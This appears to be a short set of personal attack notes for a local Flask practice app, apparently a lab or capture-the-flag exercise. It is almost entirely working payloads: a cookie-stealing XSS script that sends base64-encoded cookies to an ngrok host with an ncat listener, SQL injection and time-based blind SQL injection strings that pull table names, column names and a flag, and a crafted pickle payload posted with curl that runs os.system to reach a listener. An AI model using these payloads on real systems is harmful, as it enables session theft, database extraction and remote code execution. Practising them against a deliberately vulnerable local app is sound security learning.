 Flask
SQL
----------
' or 1=1; -- 


XSS
---------
ncat -klnvp 9000
ngrok http 9000
<script>document.write('<img src="http://340b-2406-3003-2077-4ea9-85b2-4692-1458-96f8.ngrok.io?cookie='+btoa(document.cookie)+'" />');</script>
curl -H "Cookie: token=8abae5d8bc89622b6bf5a76c948312f2" http://127.0.0.1:5000/XSS/admin


SQL Timing Based
--------------
https://www.youtube.com/watch?v=DYLDG_2Vs3E
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
"' or ((SELECT hex(substr(table_name,{},1)) FROM information_schema.tables limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- ".format(len(known_data)+1, x)
"' or ((SELECT hex(substr(column_name,{},1)) FROM information_schema.columns where table_name = 'supersecrettable' limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "
"user_name": "' or ((SELECT hex(substr(flag,{},1)) FROM supersecrettable limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "

XML Blind injection
----------------------------
https://www.youtube.com/watch?v=ySJwlMsFbco
Refer to script


XXE injection (TBC)
------------------------
https://www.youtube.com/watch?v=kiGoOuuXWFI


Pickle Insecure Deserialization
---------------------------
Refer to script
ncat -klnvp 9000
curl -d "function=decode&input=\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x13ncat 127.0.0.1 9000\x94\x85\x94R\x94." http://127.0.0.1:5000/INSEC/


Java Insecure Deserialization (TBC)
-------------------------
cd C:\Program Files\Java\jdk-14.0.2\bin\
java.exe -Dfile.encoding=Cp1252 -classpath "D:\GitAssignment\Flask\test\bin;D:\GitAssignment\Flask\test\lib\commons-collections4-4.0.jar" test.Client



